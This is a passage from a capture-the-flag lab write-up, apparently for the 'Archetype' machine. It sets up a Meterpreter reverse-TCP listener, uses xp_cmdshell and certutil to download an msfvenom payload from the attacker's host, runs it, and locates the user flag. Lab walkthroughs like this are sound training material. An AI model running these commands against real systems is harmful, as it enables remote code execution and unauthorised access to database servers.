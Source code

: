 ```
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.249
set LPORT 1234
run
```

Back in the SQL shell, we start preparing the target. First, we create a writable `Temp` directory. 

```
SQL (ARCHETYPE\sql_svc  dbo@master)> EXEC xp_cmdshell 'mkdir C:\Temp';
```

Then, we use `certutil` (a built-in Windows utility) to download our malicious payload generated with `msfvenom`.

```
SQL (ARCHETYPE\sql_svc  dbo@master)> EXEC xp_cmdshell 'certutil -urlcache -f http://10.10.14.249/msf.exe C:\Temp\msf.exe';
```

Once downloaded, we list the directory to ensure the file is there.

```
SQL (ARCHETYPE\sql_svc  dbo@master)> EXEC xp_cmdshell 'dir C:\Temp';
```

With the listener active, we can finally trigger the payload.

```
SQL (ARCHETYPE\sql_svc  dbo@master)> EXEC xp_cmdshell 'C:\Temp\msf.exe';
```

# Post Exploitation

Once the payload is executed, a Meterpreter session opens on the listener. We confirm access by running basic system info commands.

```
sysinfo
Computer        : ARCHETYPE
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows

getuid
Server username: ARCHETYPE\sql_svc
```

At this point, we're in as the `sql_svc` user. While it's not an admin account, it still has enough privileges for us to enumerate the system and start looking for sensitive files — like the user flag. One of the first places to check is the user’s Desktop, where CTF-style flags are often stored. In this case, we find the flag located at `C:\Users\sql_svc\desktop\user.txt`.
